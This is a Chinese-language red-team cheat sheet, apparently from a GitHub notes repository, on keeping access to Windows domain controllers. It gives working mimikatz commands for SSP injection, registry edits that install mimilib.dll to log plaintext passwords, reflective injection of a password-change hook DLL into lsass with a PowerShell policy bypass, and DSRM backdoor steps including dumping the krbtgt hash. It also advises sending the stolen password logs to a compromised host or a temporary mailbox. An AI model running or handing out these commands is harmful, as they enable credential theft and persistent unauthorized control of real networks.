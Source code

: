 

### 权限维持

#### 域控权限维持

###### SSP

###### HOOK

###### Skeleton Key

###### DSRM

~~~
参考资料：
https://www.cnblogs.com/lcxblogs/p/14216525.html

#内网域-权限维持-基于验证DLL加载-SSP
方法一：但如果域控制器重启，被注入内存的伪造的SSP将会丢失。
privilege::debug
misc::memssp
C:\Windows\System32\mimilsa.log 记录登录的账号密码
方法二：使用此方法即使系统重启，也不会影响到持久化的效果。
1、mimilib.dll 传到目标域控的c:\windows\system32\目录下
2、修改注册表，重启生效
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
c:\windows\system32\kiwissp.log 记录账号密码文件
技术总结：
攻防实战中，靶机很难会重启，攻击者重启的话风险过大，
因此可以在靶机上把两个方法相互结合起来使用效果比较好，
尝试利用把生成的日志密码文件发送到内网被控机器或者临时邮箱。

#内网域-权限维持-基于验证DLL加载-HOOK
https://github.com/wh0Nsq/HookPasswordChange
https://github.com/clymb3r/Misc-Windows-Hacking
方法一、
powershell
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
方法二、
powershell -exec bypass -Command "& {Import-Module 'C:\Invoke-ReflectivePEInjection.ps1';Invoke-ReflectivePEInjection -PEPath C:\HookPasswordChange.dll -procname lsass}"
报错解决：
powershell
Set-ExecutionPolicy
unrestricted

#内网域-权限维持-基于机制账号启用-DSRM
1.获取dsrm及krbtgt的NTLM hash
privilege::debug
lsadump::lsa /patch /name:krbtgt
token::elevate
lsadump::sam
2.dsrm&krbtgt&NTLM hash同步
NTDSUTIL：打开ntdsutil
set DSRM password：修改DSRM的密码
sync from domain account 域用户名字：使DSRM的密码和指定域用户的密码同步
q(第1次)：退出DSRM密码设置模式
q(第2次)：退出ntdsutil
3.修改dsrm登录方式
New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
~~~